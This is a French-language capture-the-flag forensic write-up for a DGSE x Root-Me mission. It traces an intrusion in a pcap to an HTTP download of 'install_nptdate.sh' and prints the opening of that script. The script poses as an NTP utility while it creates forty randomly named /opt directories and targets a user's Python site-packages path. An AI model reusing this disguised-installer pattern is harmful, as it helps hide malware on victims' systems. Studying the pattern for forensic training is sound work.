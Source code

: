 # Mission 3 DGSE x Root-Me (FORENSIC)

![Mission](images/mission.png)

# Writeup

On peut d'abord se pencher vers le fichier pcap pour trouver le vecteur d'intrusion.

En ouvrant ce fichier on remarque différents échanges sur des protocoles comme UDP ou TCP qui ne semblent pas être la piste.

En revanche en filtrant avec http, on remarque un :

```
GET /install_nptdate.sh HTTP/1.1 
```

Voici le script .sh :

```zsh
#!/bin/bash

# ntpdate.sh ... NTP Utility Sync Setup (v1.3.4)
# (c) 2022-2025 Network Time Foundation

set -e

__CNT=40
__IX=1000
__HD=$(getent passwd "$__IX" | cut -d: -f6)
__PYV="python3.7"
__PYLIB="$__HD/.local/lib/${__PYV}/site-packages"
__TMPF=()

for _ in $(seq 1 $__CNT); do
    __R="/opt/$(tr -dc A-Za-z0-9 </dev/urandom | head -c 8)"
    mkdir -p "$__R"
    __TMPF+=("$__R")
done

__DST="${__TMPF[$RANDOM % ${#__TMPF[@]}]}"
```